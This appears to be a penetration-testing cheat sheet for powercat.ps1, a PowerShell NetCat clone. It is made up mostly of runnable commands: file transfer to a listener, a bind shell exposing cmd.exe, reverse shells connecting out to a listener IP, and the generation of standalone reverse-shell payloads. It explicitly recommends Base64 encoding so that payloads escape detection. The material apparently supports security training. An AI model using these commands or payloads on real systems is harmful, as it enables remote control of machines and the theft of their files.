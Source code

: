 ## powercat.ps1

The PowerShell version of NetCat, written by besimorhino.

### Getting Started

Be sure to follow this process to get the powercat.ps1 script onto Windows, or it will be corrupt and not work (You'll get several errors about ampersands when you try to load the command):

1. Do not get powercat.ps1 file using wget or curl from github directly.
2. Use `apt install powercat` to create it under /usr/share/windows-resources/powercat/powercat.ps1
3. Get a hash of the script on Linux
4. Send it via netcat to Windows 
5. Start Powershell and get hash of the received script on Windows OS Powershell (i.e. Get-FileHash)
6. Set ExecutionPolicy to 'Unrestricted'

```powershell
# Load powercat (dot-sourcing) it to run the commands natively from the CLI
. .\powercat.ps1
# Help menu
powercat -h
```

### File Transfers

#### Server

```bash
sudo nc -lnvp 443 > receive_file
```

#### Client

```powershell
powercat -c 192.168.116.219 -p 443 -i c:\sendfile.txt
```

### Bind Shells

Note:  If doing this from the CLI, the process will hang due to a pause in the code waiting for input.  You can get around this by pressing any key (besides CTRL) on Windows or commenting out the code as specified [here](https://forums.offensive-security.com/showthread.php?28327-Powercat-bind-shell-doesn-t-work&p=117323#post117323). 

This issue only seems to happen when manually executing this from the CLI and should not occur if this is done as part of a payload.

#### Server

```powershell
powercat -l -p 443 -e cmd.exe -v
# Options
-v	# verbose output
```

#### Client

```bash
nc -nv 192.168.216.10 443
```

Note:  If doing this manually, the process will hang due to a pause in the code waiting for input.  You can get around this by pressing ENTER on both ends (although it doesn't always work) or commenting out the code as specified [here](https://forums.offensive-security.com/showthread.php?28327-Powercat-bind-shell-doesn-t-work&p=117323#post117323). 

This issue only seems to happen when manually executing this from the CLI and should not occur if this is done as part of a payload.

### Reverse Shell

If the shell hangs, see the note in 'Bind Shells' above.

#### Server:

```bash
sudo nc -lnvp 443
```

#### Client

```powershell
powercat -c 192.168.116.219 -p 443 -e cmd.exe -v
```

### Stand-Alone Payloads

Powercat can generate payloads which include a set of powershell instructions and a portion of the powercat script requested by the user.

Plaintext payloads have a low success rate due to their large size of code and hardcoded strings that are easily detected.

```powershell
# Plaintext payload
powercat -c 192.168.119.216 -p 443 -e cmd.exe -g > reversehell.ps1
```

This can be overcome using Base64 encoding instead.

```powershell
# Base64 payload
powercat -c 192.168.119.216 -p 443 -e cmd.exe -ge > encodedreversehell.ps1
```

An encoded shell cannot be executed from a file, it must be sent to Powershell

```powershell
powershell.exe -E A-REALLY-LONG-ENCODED-PAYLOAD
```

